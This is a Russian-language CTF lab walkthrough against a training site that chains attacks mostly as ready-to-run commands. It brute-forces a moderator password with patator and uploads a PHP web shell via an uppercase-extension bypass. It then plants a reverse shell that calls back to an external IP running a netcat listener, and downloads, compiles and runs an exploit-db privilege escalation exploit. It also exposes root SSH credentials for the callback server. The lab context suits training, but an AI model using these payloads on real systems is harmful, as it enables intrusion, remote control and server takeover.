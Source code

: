 1-ая лабораторная

Адрес сайта в скриптах (spbctf.ppctf.net:3123) следует заменять на адрес с актуальным портом

Пункт 1. Взломать пароль одного из модераторов

$ wget https://raw.githubusercontent.com/duyet/bruteforce-database/master/indo-cities.txt -O pass.txt
$ patator \
    http_fuzz url=http://spbctf.ppctf.net:3123/users/login \
    method=POST \    body='token=_TOKEN_&username=svetochek&password=FILE0&login_submit=Log+In' \
        0=pass.txt \
        before_urls=http://spbctf.ppctf.net:3123/users/login \
        before_egrep='_TOKEN_:name="token" value="([0-9a-z]+)">'\
        -x ignore:egrep='Invlid' \
        follow=1 \
        accept_cookie=1\
        -t 50

Пункт 2. RCE (Remote code execution)

На сайте после авторизации следует зайти в "Администрирование" и "Файлы". Там нужно выбрать и загрузить файл с произвольным именем, расширением .PHP (Заглавными буквами) и содержимым:

<?php
$cmd = $_GET['cmd'];
system($cmd);
?>

После загрузки следует зайти на страницу с этим файлом и добавить параметр "cmd" с указанием какой-нибудь команды для демонстрации exploit'а

Пример:
spbctf.ppctf.net:3123/public/uploads/fileName.PHP?cmd=uname -a

Пункт 3. PHP Reverse Shell

$ ssh root@135.181.38.41
Password: mmthebest
$ nc -lp 1234

(В новом окне)

$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O reverseShellScript.PHP
$ sed -i "s/127.0.0.1/135.181.38.41/g" reverseShellScript.PHP

Файл следует загрузить на сервер, после чего нужно зайти на соответствующую файлу страницу

Пример:
spbctf.ppctf.net:3123/public/uploads/reverseShellScript.PHP

Теперь в окне с SSH соединением появится доступ к серверу.

Пункт 4. LPE (Local Privilege Escalation)

(В окне с SSH)

$ wget https://www.exploit-db.com/raw/37292 -O /var/www/public/uploads/LPE.c
$ gcc /var/www/public/uploads/LPE.c -o /var/www/public/uploads/LPE
$ ./var/www/public/uploads/LPE
$ id
